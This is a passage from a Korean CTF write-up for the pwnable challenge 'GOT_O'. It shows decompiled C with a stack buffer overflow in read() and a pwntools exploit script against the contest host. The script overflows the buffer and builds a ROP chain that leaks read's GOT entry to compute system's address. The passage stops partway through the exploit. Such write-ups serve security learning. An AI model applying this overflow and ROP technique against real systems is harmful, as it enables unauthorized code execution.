 
![](https://user-images.githubusercontent.com/32904385/63650819-c28d5500-c789-11e9-9788-157bbc7f9a3d.png)

**FLAG : `flag{0bfu5c4tOr_C4nT_5T0P_M3}`**

<br />

# Pwnable

## GOT_O

간단한 got overwrite 문제이다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  problem();
  write(1, "\n\n", 2u);
  return 0;
}
```

```c
ssize_t problem()
{
  char buf; // [esp+0h] [ebp-18h]

  return read(0, &buf, 0xA0u);
}
```

````c
int win()
{
  return printf("/bin/sh");
}
````

exploit.py

```python
from pwn import *

context.log_level = 'debug'

p = remote('inc0gnito.com',9090)
elf = ELF('./GOT_o')

main = 0x080484a3
win = 0x0804848a
problem = 0x0804846b
read_offset = 0x9ad60 # read - system

payload = cyclic(cyclic_find('haaa'))

rop1 = ROP(elf)
rop1.write(1,elf.got['read'],4)
rop1.call(problem)

log.info('Stage1')

p.sendline(payload + str(rop1))
sleep(0.1)
read_got = u32(p.recv(4))

sys_got = read_got - read_offset

```